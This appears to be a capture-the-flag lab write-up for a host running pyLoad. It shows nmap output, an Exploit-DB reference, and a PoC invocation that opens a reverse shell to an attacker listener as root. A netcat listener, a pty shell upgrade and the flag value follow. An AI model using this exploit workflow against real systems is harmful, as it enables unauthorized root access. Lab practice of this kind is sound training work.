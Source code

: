 `Running all scans on 192.168.217.26`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT     STATE SERVICE`
`22/tcp   open  ssh`
`9666/tcp open  zoomcp`

`---------------------Starting Script Scan-----------------------`

`PORT     STATE SERVICE VERSION`
`22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)`
`| ssh-hostkey:` 
`|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)`
`|_  256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)`
`9666/tcp open  http    CherryPy wsgiserver`
`| http-robots.txt: 1 disallowed entry` 
`|_/`
`| http-title: Login - pyLoad` 
`|_Requested resource was /login?next=http://192.168.217.26:9666/`
`|_http-server-header: Cheroot/8.6.0`
`Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

Search Google
![[Pasted image 20240222181545.png]]

We find exploit https://www.exploit-db.com/exploits/51532

This exploit acts weird and freezes, let's see if there is another PoC.
![[Pasted image 20240222181655.png]]

`└─$ python exploit.py -t http://192.168.217.26:9666 -I 192.168.45.222 -P 80 -c id`
`[SUCCESS] Running reverse shell. Check your listener!`

This one works and it starts the reverse shell as root.
`└─$ nc -nlvp 80`          
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:80`
`Ncat: Listening on 0.0.0.0:80`
`Ncat: Connection from 192.168.217.26:36786.`
`bash: cannot set terminal process group (911): Inappropriate ioctl for device`
`bash: no job control in this shell`
`root@pyloader:~/.pyload/data# python3 -c 'import pty; pty.spawn("/bin/bash")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`root@pyloader:~/.pyload/data# whoami`
`whoami`
`root`

Grab the flag
`root@pyloader:~# cat proof.txt`
`cat proof.txt`
`80b68912cb043604b3143d8a55420857`
